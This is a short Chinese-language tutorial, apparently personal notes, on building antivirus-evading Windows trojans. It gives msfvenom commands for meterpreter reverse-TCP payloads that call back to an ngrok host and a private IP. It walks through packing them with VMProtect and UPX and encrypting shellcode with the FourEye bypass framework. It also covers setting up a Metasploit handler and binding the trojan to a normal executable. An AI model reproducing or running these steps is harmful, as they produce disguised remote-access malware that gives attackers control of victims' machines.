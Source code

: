 #### vmprotect免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=378 -e x86/shikata_ga_nai -i 12 -f exe -o .exe
```

![image-20210121013507919](../../img/image-20210121013507919.png)



![image-20210121013555146](../../img/image-20210121013555146.png)

```
软件往里面一拖
点这个按钮，出来的软件就免杀了
```

![image-20210121013626833](../../img/image-20210121013626833.png)

![image-20210121013457217](../../img/image-20210121013457217.png)

![image-20210121013719457](../../img/image-20210121013719457.png)

```
这两个软件免杀，国内使用完全就没问题了
```



#### exe合并



```
git clone https://github.com/lengjibo/FourEye.git#下载
cd FourEye
pip install -r requirements.txt
python3 BypassFramework.py#打开

2.显示可生成的软件，list
3、选择shellcode，显示可选择的免杀方式
4、选择fibers免杀方式，加密方式选择xor，输入shellcode，选择平台的位数，execute运行
#注意：如果报错请安装mingw环境

apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

```
#木马生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.16.102 LPORT=14444 -f exe -o usertest.exe
#加壳
使用
upx -5 usertest.exe


#use exploit/mutil/hander #用这个模块进行控制
```

绑定在正常exe

如何修改exe图标